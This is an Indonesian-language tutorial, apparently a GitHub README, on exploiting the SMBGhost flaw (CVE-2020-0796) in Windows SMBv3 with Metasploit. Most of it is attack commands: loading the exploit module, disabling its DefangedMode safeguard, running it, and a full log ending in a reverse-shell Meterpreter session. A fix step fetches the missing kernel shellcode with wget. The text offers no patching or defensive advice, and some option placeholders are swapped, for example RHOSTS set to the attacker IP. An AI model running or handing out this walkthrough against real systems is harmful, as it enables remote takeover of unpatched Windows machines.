 # CVE-2020-0796

## A. Apa itu CVE-2020-0796?

[CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796), juga dikenal sebagai SMBGhost, adalah kerentanan Remote Code Execution (RCE) dalam `SMBv3` (Server Message Block versi 3) yang ditemukan pada Windows 10 dan Windows Server versi `1903` dan `1909`.

Kerentanan ini memungkinkan penyerang jarak jauh untuk mengeksekusi kode arbitrer pada sistem target hanya dengan mengirimkan paket `SMBv3` yang dibuat khusus. Dalam kondisi tertentu, kerentanan ini juga bisa dimanfaatkan untuk Local Privilege Escalation (LPE).

## B. Detail Teknis:
- CVE ID: `CVE-2020-0796`
- Tanggal Rilis: `10 Maret 2020`
- Tipe: Remote Code Execution (RCE) + Local Privilege Escalation (LPE)
- Protokol: `SMBv3`
- Komponen: `srv2.sys`
- Platform: `Windows 10` / `Server 1903` & `1909`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `10.0` (Kritis)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-0796`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)

## D. Langkah Penggunaan di Metasploit:

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit CVE-2020-0796:

   ```
   msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <TARGET>
   msf6 > set RHOSTS <IP_ATTACKER>
   msf6 > set RPORT 445
   msf6 > set DefangedMode false
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] 192.168.1.51:445 - Running automatic check ("set AutoCheck false" to disable)
   [!] 192.168.1.51:445 - The service is running, but could not be validated.
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000013000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000002000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000003000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000004000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000006000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000007000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000008000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000009000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000a000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000b000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000c000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000d000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000e000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000f000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000010000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000011000
   [*] 192.168.1.51:445 - Found low stub at physical address 0x0000000000011000, virtual address 0xfffff79e8000e000
   [*] 192.168.1.51:445 - Found PML4 at 0x00000000001aa000 (BIOS)
   [*] 192.168.1.51:445 - Found HAL heap at 0xfffff79e80000000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaa00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aac00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae00
   [*] 192.168.1.51:445 - Found PML4 self-reference entry at 0x01c9
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf78
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000041003d0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004103000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001a00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001c00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001e00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104008
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000000054c0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf80
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004308068
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004309210
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000255ebb0
   [*] 192.168.1.51:445 - Found hal!HalpInterruptController at 0xfffff79e80001448
   [*] 192.168.1.51:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8034855ebb0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae48
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004100000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004101000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004102000
   [*] 192.168.1.51:445 - KUSER_SHARED_DATA PTE NX bit cleared!
   [*] 192.168.1.51:445 - Transferring 1274 bytes of shellcode...
   [*] 192.168.1.51:445 - Transfer complete, hooking hal!HalpApicRequestInterrupt to trigger execution...
   [*] Sending stage (203846 bytes) to 192.168.1.51
   [*] Meterpreter session 26 opened (192.168.1.42:4444 -> 192.168.1.51:49672) at 2025-05-14 22:17:01 +0700
   [*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
   [*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...

   meterpreter > 
   ```

   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.

## Tips Tambahan

Jika pada saat proses eksplotasi muncul error seperti ini:

```
[-] 192.168.1.51:445 - Exploit failed: Errno::ENOENT No such file or directory @ rb_sysopen - /usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
[*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
[*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/cve_2020_0796_smbghost) >
```

Itu artinya file `kernel_shellcode.asm` tidak ada di direktori `/usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/`.

Untuk mengatasi error itu ketikkan perintah ini:

```
cd /usr/share/metasploit-framework
mkdir -p external/source/exploits/CVE-2020-0796/RCE/
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
```

Jika sudah jalankan exploit lagi:

```
exploit
```
